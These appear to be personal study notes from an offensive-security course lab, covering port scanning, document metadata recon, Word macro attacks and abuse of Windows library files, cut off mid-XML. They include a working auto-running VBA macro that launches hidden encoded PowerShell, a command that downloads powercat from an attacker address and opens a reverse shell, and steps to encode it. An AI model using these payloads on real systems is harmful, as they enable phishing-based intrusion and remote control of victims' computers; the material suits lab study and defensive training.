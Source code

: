 - **Q5 - Capstone Lab**
	- `nmap -p- -v -sV -sC -oN output.txt 192.168.203.48` revealed that there is mysql running on port 3306

## Client-side Attacks

### Target Reconnaissance
- Use `exiftool` to find information about documents you find, especially pdf files.
	- `exiftool -a -u <FILENAME>`

### Exploiting Microsoft Office
- If `rdesktop` is not working, use `xfreerdp` instead. Syntax: `xfreerdp /u:<USERNAME> /p:<PASSWORD> /v:<IP_ADDR>`

#### Leveraging Microsoft Word Macros
- To get reverse shell using word macro:
- Create a .doc (won't work with .docx; I haven't researched why) file
- Go to View > Macros and create a new macro
- Start with this template:
	```
	Sub AutoOpen()
		MyMacro
	End Sub
	
	Sub Document_Open()
		MyMacro
	End Sub
	
	Sub MyMacro()
		Dim Str As String
	Str = "powershell.exe -nop -w hidden -enc B64_ENCODED_STR_HERE"
		CreateObject("Wscript.Shell").Run Str
	End Sub
	```
- Replace the B64 encoded string in `Str` with a command to download [powercat.ps1](https://github.com/besimorhino/powercat) and then run it in memory. This can be done with: `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`
	- NOTE: after changing the host/port to the correct values, make sure to use `pwsh` on kali linux (or powershell on a windows box) to encode the command. It will encode differently than other encoders (haven't figured out why yet).
	- pwsh command to encode in b64:
		- `$Text = 'IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell'`
		- `$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`
		- `$EncodedText =[Convert]::ToBase64String($Bytes)`
		- `$EncodedText`
### Abusing Windows Library Files

#### Steps to Obtaining Code Execution via Windows Library Files
- Create windows virtual container ( a .Library.ms file)
	```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
	<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<searchConnectorDescriptionList>